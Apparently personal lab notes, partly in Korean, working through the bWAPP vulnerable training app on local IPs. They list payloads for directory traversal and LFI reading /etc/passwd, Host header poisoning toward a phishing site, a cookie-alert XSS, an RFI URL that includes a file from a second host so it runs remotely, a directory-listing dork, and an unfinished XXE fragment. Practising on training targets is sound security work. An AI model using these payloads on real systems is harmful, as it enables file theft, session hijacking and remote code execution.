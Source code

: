 ## Directory Traversal - Files
### security : low
http://192.168.56.143/bWAPP/directory_traversal_2.php?page=../../../etc/passwd
## Host Header Attack(Cache Poisoning)
### security : low
here : portal.php로 이동
burp suite
intercept on
	Host : 피싱사이트 입력
## Host Header Attack(Cache Poisoning)
### security : low
burp suite
intercept on
	Host : 피싱사이트 입력
## Local File Inclusion(SQLiteManager)
### security : low
SQLite Manager -> + Trigger -> Step : `<script>alert(document.cookie)</script>
	스크립트가 실행되어 알림창 뜸
## Remote&Local File Inclusion(RFI/LFI)
### security : low
rlfi.php?language=../../../etc/passwd&action=go
	/etc/passwd 파일 출력
rlfi.php?language=http://192.168.56.102/rfi.txt&action=go
	원격파일 실행 가능
## Restrict Device Access
### security : low
User-Agent 에 장비의 종류에 대한 정보 있음
smartphone이나 tablet computer로만 접근 가능한 사이트
burp suite
intercept on
	User-Agent : Mozilla/5.0 (Android 15; Mobile; rv:68.0) Gecko/68.0 Firefox/137.0
	This is a smartphone or a tablet computer!
user-agent switcher 확장 프로그램 존재
## Restrict Folder Access
### security : low
intitle:""index of" index":old movie 검색
Index of /old
/old/2010
	폴더에 접근하는데 제한이 없음
## XML External Entity Attacks(XXE)
### security : low
burp suite
intercept on
	`<?xml version="1.0" encoding="utf-8"?>
		`<!DOCTYPE root [`
		`<!ENTITY XXE SYSTEM`
		`]`
